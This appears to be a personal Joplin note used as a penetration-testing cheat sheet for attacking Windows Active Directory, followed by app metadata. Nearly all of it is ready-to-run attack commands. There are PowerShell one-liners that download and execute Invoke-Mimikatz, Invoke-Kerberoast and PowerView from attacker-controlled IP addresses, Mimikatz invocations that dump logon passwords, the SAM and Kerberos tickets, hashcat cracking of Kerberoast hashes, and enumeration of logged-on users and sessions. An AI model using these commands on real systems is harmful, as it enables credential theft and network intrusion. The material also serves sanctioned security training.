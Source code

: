 0. Cheat Sheet

# Remote Mimikatz

powershell -nop "IEX(New-Object System.Net.WebClient).downloadString('http://10.10.14.9:8000/Invoke-Mimikatz.ps1')"

Invoke-Mimikatz -DumpCreds #Dump creds from memory

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

kerberos::list /export

<ins>**NOTE:**</ins>mimikatz latest version doesn't work on 1809 build of windows. Use the older version 'mimikatzold64.exe'

# Remote Kerberoast

## Hashcat method - MUCH FASTER

powershell -ep bypass "IEX(New-Object System.Net.WebClient).downloadString('http://192.168.119.206/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat Hashcat | Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

klist

\# Send back to kali and run hashcat

hashcat -m 13100 --force -a 0 -o Cracked.txt kerb-Hash0.txt /usr/share/wordlists/rockyou.txt

## Using Invoke-Mimikatz

> Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "kerberos::list /export" "lsadump::sam" "exit"'
> 
> \# Transfer file back to kali
> 
> python3 /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt &lt;.kirbi file&gt;

# PowerView \[Get Currently logged on usernames\]

Import-Module .\\PowerView.ps1 OR powershell -nop "IEX(New-Object System.Net.WebClient).downloadString('[http://10.10.14.9:8000/PowerView.ps1](http://10.10.14.9:8000/ipw.ps1)')"

Get-NetLoggedon -ComputerName &lt;workstation&gt; # NetWkstaUserEnum - get logged on user list

Get-NetSession -ComputerName &lt;DC&gt; # NetSessionEnum - Get active sessions

## If there are logon users

> \# Obtain Mimikatz console
> 
> sekurlsa::logonpasswords

# All libraries are in ~/ADlibs

id: 47d7422e06d948c0ba7ec81fc6caab6d
parent_id: ac0bd99a1a324cb6a297fd05a2b92039
created_time: 2022-04-20T03:39:15.830Z
updated_time: 2022-04-28T08:44:11.134Z
is_conflict: 0
latitude: 1.30360000
longitude: 103.85540000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-04-20T03:39:15.830Z
user_updated_time: 2022-04-28T08:44:11.134Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1